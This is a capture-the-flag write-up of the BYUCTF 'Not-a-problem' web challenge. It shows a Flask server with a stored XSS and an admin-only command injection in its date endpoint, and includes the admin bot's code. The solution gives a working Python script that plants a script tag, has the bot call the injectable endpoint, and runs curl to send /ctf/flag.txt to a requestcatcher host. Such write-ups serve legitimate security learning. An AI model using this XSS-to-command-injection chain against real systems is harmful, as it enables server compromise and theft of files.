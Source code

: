 # Not-a-problem ~ Web

## Description

<blockquote>
Bug bounty hunter: "There's command injection here"

Triager: "But it's only accessible by admins so it's nOt A vUlNeRaBiLiTy"

You: bet

Server - https://not-a-problem.chal.cyberjousting.com/

Admin bot - https://not-a-problem-admin.chal.cyberjousting.com/

Author:Legoclones

Note: For all web challenges, for reasons unknown to mankind, calls back to webhook.site(and perhaps others) are not working so try to use something like https://requestcatcher.com/ (which is confirmed to work)
</blockquote>

## Analysis

<p> In this challenge we are given the source code of server and admin bot. That last part of the description came way later (webhook.site - reference) which made me waste a lot of time...
</p>

server.py

```from flask import Flask, request
import uuid, subprocess


# initialize flask
app = Flask(__name__)
SECRET = open("secret.txt", "r").read()
stats = []


# index
@app.route('/', methods=['GET'])
def main():
    return 'Bro did you really think I care about the front end enough to make one?'


# get stats
@app.route('/api/stats/<string:id>', methods=['GET'])
def get_stats(id):
    for stat in stats:
        if stat['id'] == id:
            return str(stat['data'])
        
    return '{"error": "Not found"}'


# add stats
@app.route('/api/stats', methods=['POST'])
def add_stats():
    try:
        username = request.json['username']
        high_score = int(request.json['high_score'])
    except:
        return '{"error": "Invalid request"}'
    
    id = str(uuid.uuid4())

    stats.append({
        'id': id,
        'data': [username, high_score]
    })
    return '{"success": "Added", "id": "'+id+'"}'


# current date
@app.route('/api/date', methods=['GET'])
def get_date():
    # get "secret" cookie
    cookie = request.cookies.get('secret')

    # check if cookie exists
    if cookie == None:
        return '{"error": "Unauthorized"}'
    
    # check if cookie is valid
    if cookie != SECRET:
        return '{"error": "Unauthorized"}'
    
    modifier = request.args.get('modifier','')
    
    return '{"date": "'+subprocess.getoutput("date "+modifier)+'"}'


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337, threaded=True)
```

admin_bot.js

```const express = require('express');
const puppeteer = require('puppeteer');
const escape = require('escape-html');
const fs = require('fs');

const app = express()
app.use(express.urlencoded({ extended: true }));

const SECRET = fs.readFileSync('secret.txt', 'utf8').trim()
const CHAL_URL = 'http://127.0.0.1:1337/'

// go to the page specified by the path, using a secret session cookie
const visitUrl = async (url) => {

    let browser =
            await puppeteer.launch({
                headless: "new",
                pipe: true,
                dumpio: true,

                // headless chrome in docker is not a picnic
                args: [
                    '--no-sandbox',
                    '--disable-gpu',
                    '--disable-software-rasterizer',
                    '--disable-dev-shm-usage',
                    '--disable-setuid-sandbox',
                    '--js-flags=--noexpose_wasm,--jitless'
                ]
            })

    try {
        const page = await browser.newPage()

        try {
            await page.setUserAgent('puppeteer');
            let cookies = [{
                name: 'secret',
                value: SECRET,
                domain: '127.0.0.1',
                httpOnly: true
            }]
            await page.setCookie(...cookies)
            await page.goto(url, { timeout: 5000, waitUntil: 'networkidle2' })
        } finally {
            await page.close()
        }
    }
    finally {
        browser.close()
        return
    }
}
...
...
```
Taking a look at the server.py we can see that there is an XSS vulnerability at the `/api/stats/<string:id>'` endpoint that is returning data to the client, from object property `data` as `str(stat['data']`. So we can upload our payload through `/api/stats` endpoint as POST request which basically takes json object with properties: `username` and `high_score`- that are part of the object that will get appended to the global list `stat`. On success it will return us `id` which is `uuid` of the note that we can pass to the bot to visit and where our XSS will trigger. 
Another vector is in `api/date` endpoint:

```
    modifier = request.args.get('modifier','')
    
    return '{"date": "'+subprocess.getoutput("date "+modifier)+'"}'
``` 
We can see that we could do a command injection through `modifier` argument since it is directly used without any sanitization in `subprocess` call. 

## Solution

Since I wasted a lot of time before they announced that bot would not visit webhook.site , teammate (Shafou) took over with part of the script and tried with request.catcher as it was provided as service that will work for exfiltration. 

```python
import requests, subprocess

API = 'https://not-a-problem.chal.cyberjousting.com'
# API = 'http://localhost:40001'
BOT = 'https://not-a-problem-admin.chal.cyberjousting.com'
# BOT = 'http://localhost:40002'

a = """
<script>
(() => { 
    fetch('http://127.0.0.1:1337/api/date?modifier=;curl+https://lalal.requestcatcher.com/13`cat /ctf/flag.txt`', {'mode':'no-cors'})
})()
</script>""".replace('\n','')

# a = """
# <iframe src="http://localhost:1337/api/date?modifier=ls"></iframe>
# """.replace('\n','')

def create_xss():
    payload = {"username": a, "high_score": 12}

    res = requests.post(API + '/api/stats', json=payload)
    id = res.json()["id"]
    return id

def visit(id):
    res = requests.post(BOT + '/visit', data={'path':f'api/stats/{id}'})
    print(f"DEBUGPRINT[4]: lab.py:14: res.text={res.text}")

id = create_xss()
print(f"{API}/api/stats/{id}")

import time
start = time.time()
visit(id)
end = time.time()
bench = end - start
print(f"DEBUGPRINT[12]: lab.py:39: bench={bench}")
```

And it got us a flag:

<b>GET /byuctf"not_a_problem"_YEAH_RIGHT HTTP/1.1</b>

<b>Author: [hebi](github.com/0xhebi) </b>